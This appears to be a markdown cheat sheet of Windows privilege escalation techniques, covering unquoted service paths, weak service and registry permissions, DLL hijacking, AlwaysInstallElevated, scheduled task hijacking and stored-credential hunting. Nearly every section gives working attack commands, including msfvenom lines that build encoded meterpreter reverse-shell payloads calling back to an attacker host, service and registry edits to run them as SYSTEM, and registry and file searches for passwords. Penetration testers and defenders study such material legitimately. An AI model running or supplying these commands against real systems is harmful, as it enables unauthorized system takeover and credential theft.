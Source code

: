 # Windows Privilege Escalation

- [Automated Scripts](#automated-scripts)
- [Get OS Version and Patch Level](#get-os-version-and-patch-level)
- [Unquoted Service Paths](#unquoted-service-paths)
- [Weak File and Folder Permissions per drive](#weak-file-and-folder-permissions-per-drive)
- [Weak Service Permissions](#weak-service-permissions)
- [Weak Registry Keys Permissions](weak-registry-keys-permissions)
- [AlwaysInstallElevated](#always-install-elevated)
- [Scheduled Tasks](#scheduled-tasks)
- [Create Local Task](#create-local-task)
- [Create Remote Task](#create-remote-task)
- [Stored Credentials](#stored-credentials)
- [Accessibility](#accessibility)





## Automated Scripts
     PowerUp
     Windows Privesc Check 2.0

## Get OS Version and Patch Level

     systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
     wmic qfe get Caption,Description,HotFixID,InstalledOn

## Unquoted Service Paths

     wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """

     Service Path Hijack

     msfvenom -p windows/meterpreter/reverse_https -e x86/shikata_ga_nai LHOST=$ip LPORT=443 -f exe -o Privatefirewall.exe
     sc stop PFNet
     sc start PFNet

## Weak File and Folder Permissions per drive

     accesschk.exe -uwdqs "Authenticated Users" c:\
     accesschk.exe -uwqs Users c:\*.*
     accesschk.exe -uwqs "Authenticated Users" c:\*.*

     Modify Service Binary

     msfvenom -p windows/meterpreter/reverse_https -e x86/shikata_ga_nai LHOST=$ip LPORT=443 -f exe -o Privatefirewall.exe

     DLL Hijacking – non-default directories in C: give write access to authenticated users
     msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=$ip LPORT=8989 -f dll > hijackable.dll
     cp dll into directory
     shutdown /r /t 0

     Windows (32 bit) first searches for "known DLLs", such as Kernel32.dll and User32.dll, then it searches:
1 - The directory from which the application loaded
2 - 32-bit System directory (C:\Windows\System32)
3 - 16-bit System directory (C:\Windows\System)
4 - Windows directory (C:\Windows)
5 - The current working directory (CWD)
6 - Directories in the PATH environment variable (system then user)

## Weak Service Permissions

     accesschk.exe -uwcqv "testuser" * /accepteula
     accesschk.exe –uwcqv “Authenticated Users” *

     Modify Service BinPath

     Accesschk.exe –ucqv <service-name>
     sc qc <service-name>
     msfvenom -p windows/meterpreter/reverse_https -e x86/shikata_ga_nai LHOST=$ip LPORT=443 -f exe -o new-service.exe
     sc config PFNET binpath= "new-service.exe"
     sc stop PFNET
     sc start PFNET

     SERVICE_CHANGE_CONFIG Can reconfigure service binary
     WRITE_DAC Can reconfigure permissions à SERVICE_CHANGE_CONFIG
     WRITE_OWNER Can become owner à reconfigure permissions
     GENERIC_WRITE Inherits SERVICE_CHANGE_CONFIG
     GENERIC_ALL Inherits SERVICE_CHANGE_CONFIG

## Weak Registry Keys Permissions

     subinacl.exe /keyreg "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Vulnerable Service" /display
     https://www.microsoft.com/en-us/download/details.aspx?id=23510

     Modify Registry Key
     msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai LHOST=$ip LPORT=443 -f exe -o Payload.exe
     reg add "HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Services\Vulnerable Service" /t REG_EXPAND_SZ /v ImagePath /d      "C:\Users\testuser\AppData\Local\Temp\Payload.exe" /f
     shutdown /r /t 0

## AlwaysInstallElevated 

     Registry Keys (both reg values must be 1)
     reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
     reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

     AlwaysInstallElevated - allows users of any privilege level to install *.msi files as NT AUTHORITY\SYSTEM
     msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai LHOST=$ip LPORT=443 -f exe -o Payload.exe
     msfvenom -f msi-nouac -p windows/exec cmd="C:\Users\testuser\AppData\Local\Temp\Payload.exe" > malicious.msi
     upload payload and msi
     use exploit/multi/handler
     msiexec /quiet /qn /i malicious.msi

## Scheduled Tasks

     schtasks /query /fo LIST /v
     accesschk.exe -dqv "E:\GrabLogs"

     Task Hijacking

     Look for tasks running under SYSTEM
     msfvenom -p windows/meterpreter/reverse_https -e x86/shikata_ga_nai LHOST=$ip LPORT=443 -f exe -o Privatefirewall.exe
     Overwrite executable

## Create Local Task (must be Local Admin on 2000, XP, 2003)
     msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai LHOST=$ip LPORT=443 -f exe -o Payload.exe
     net start "Task Scheduler"
     time
     start handler
     at 06:42 /interactive "C:\Payload.exe"
     schtasks /create /tn newtask /s bob /u john /p password /sc once /st 18:51 /tr "C:\Payload.exe"

## Create Remote Task
     net use \\$ip /user:DOMAIN\username password
     net time \\$ip
     at \\$ip 13:20 c:\temp\evil.bat

## Stored Credentials

     dir /s *pass* == *cred* == *vnc* == *.config*
     reg query HKLM /f password /t REG_SZ /s
     reg query HKCU /f password /t REG_SZ /s
     dir c:\*vnc.ini /s /b /c
     dir c:\*ultravnc.ini /s /b /c
     dir c:\ /s /b /c | findstr /si *vnc.ini
     findstr /si password *.txt | *.xml | *.ini
     findstr /si pass *.txt | *.xml | *.ini

     Unattended Installs

     Look for sysprep.inf, sysprep.xml, Unattended.xml
     C:\Windows\Panther\
     C:\Windows\Panther\Unattend\
     C:\Windows\System32\
     C:\Windows\System32\sysprep\

## Accessibility
     sethc.exe          Shift x 5
     utilman.exe      Windows + C

